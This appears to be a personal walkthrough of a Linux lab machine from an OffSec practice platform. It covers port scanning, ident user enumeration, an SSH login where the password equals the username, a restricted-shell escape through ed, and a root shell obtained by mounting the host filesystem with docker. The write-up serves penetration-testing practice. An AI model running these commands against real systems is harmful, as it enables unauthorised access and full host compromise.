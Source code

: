 Linux ttl=61

# scan

```
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
|_auth-owners: root
| ssh-hostkey: 
|   2048 75:4c:02:01:fa:1e:9f:cc:e4:7b:52:fe:ba:36:85:a9 (RSA)
|   256 b7:6f:9c:2b:bf:fb:04:62:f4:18:c9:38:f4:3d:6b:2b (ECDSA)
|_  256 98:7f:b6:40:ce:bb:b5:57:d5:d1:3c:65:72:74:87:c3 (ED25519)
113/tcp   open  ident             FreeBSD identd
|_auth-owners: nobody
5432/tcp  open  postgresql        PostgreSQL DB 12.3 - 12.4
8080/tcp  open  http              WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
|_http-title: Redmine
|_http-server-header: WEBrick/1.4.2 (Ruby/2.6.6/2020-03-31)
| http-robots.txt: 10 disallowed entries 
| /projects/test/repository /projects/test/issues 
| /projects/test/activity /projects/1/repository /projects/1/issues 
|_/projects/1/activity /issues/gantt /issues/calendar /activity /search
10000/tcp open  snet-sensor-mgmt?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Sat, 29 Jun 2024 07:53:05 GMT
|     Connection: close
|     Hello World
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Sat, 29 Jun 2024 07:52:57 GMT
|     Connection: close
|_    Hello World
|_auth-owners: eleanor
```

# rabbit hole

### port 8080

redmine is running on it but can't find a way to get RCE with exploit

![[Pasted image 20240629132708.png]]

https://github.com/slowmistio/Redmine-CVE-2019-18890/blob/master/exploit.py

### postgre

![[Pasted image 20240629132745.png]]

it was also newer version

# initial

![[Pasted image 20240629132818.png]]

left with this new thing

https://book.hacktricks.xyz/network-services-pentesting/113-pentesting-ident

![[Pasted image 20240629132845.png]]

just followed that

![[Pasted image 20240629132925.png]]

```
ident-user-enum 192.168.194.60 22 113 8080 5432 10000
```

left only SSH as this is offsec nothing hurt to try same username for pass

Woo-Hoo!!

![[Pasted image 20240629133045.png]]

# priv esc

### again restricted shell

![[Pasted image 20240629133151.png]]

rbash again, whenerver see this, look into `bin` folder to know which commands are available for current user

![[Pasted image 20240629133357.png]]

only `ed` is one which can give shell

```
ed
```

```
!/bin/bash
```

still it's not working so checked at walkthough

```
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

we need to add this in order to run it

![[Pasted image 20240629133819.png]]

### actual priv esc

user is part of `docker` group

![[Pasted image 20240629134152.png]]

docker is already installed, to check that

```
#Search the socket
find / -name docker.sock 2>/dev/null
#It's usually in /run/docker.sock
```

In this case I can use regular docker commands to communicate with the docker daemon

as I can see there's 2 image

now I can use gtfobins command of docker with replacing image name

```
docker run -v /:/mnt --rm -it redmine chroot /mnt sh
```

![[Pasted image 20240629134810.png]]

https://gtfobins.github.io/gtfobins/docker/

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#mounted-docker-socket-escape

https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/linux/peppo